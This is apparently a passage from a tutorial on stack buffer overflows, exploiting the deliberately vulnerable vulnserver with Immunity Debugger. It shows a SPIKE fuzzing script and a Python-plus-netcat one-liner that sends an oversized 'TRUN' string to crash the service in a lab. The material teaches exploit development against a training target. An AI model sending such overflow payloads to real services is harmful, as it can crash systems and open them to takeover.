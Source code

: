 Now we going to look on the last example for that post, we have the vulnserver for windows machine, that vulnserver is like what we have used so far on linux, that is exe file that we going to explore, you can find the file [here](https://github.com/stephenbradshaw/vulnserver), while exploring that app, we going to use Immunity Debugger and check how to controll that app by buffer overflow it, also please note, I am skip the spiking path and jump directly into the process of overflow the vulnserver with `TRUN /.:/ ` string, if you want to test the spiking process you can download the [generic_send_tcp](https://github.com/guilhermeferreira/spikepp/blob/master/SPIKE/src/generic_send_tcp.c, this should be install on your kali linux by default, so you just need to run it:
```
└─$ generic_send_tcp                           
argc=1
Usage: ./generic_send_tcp host port spike_script SKIPVAR SKIPSTR
./generic_send_tcp 192.168.1.100 701 something.spk 0 0
```
you should use stats.spk file that contain somthing like the followingfor run that code against the target:
```
s_readline();
s_string("STATS ");
s_string_variable("0");
```

The STATS in that case is the command that need to inserted to the target, so you can change the command it self and it will run that spiking against the target and try to overflow the program for each command option you will test.

As I said, on our case vulnserver have vulnerable for `TRUN /.:/ ` with bunch of 'A', so we can run the following for crash it.
```
└─$ python2 -c 'print "TRUN /.:/" +"A"*5000'  | nc -nv 192.168.126.28 9999
(UNKNOWN) [192.168.126.28] 9999 (?) open
Welcome to Vulnerable Server! Enter HELP for help.

```

On the server side using ImmunityDebugger we will see that crash.

![bo-053.png](/assets/images/bo-053.png)
**Figure 53** The ESP instruction of EAX changes.
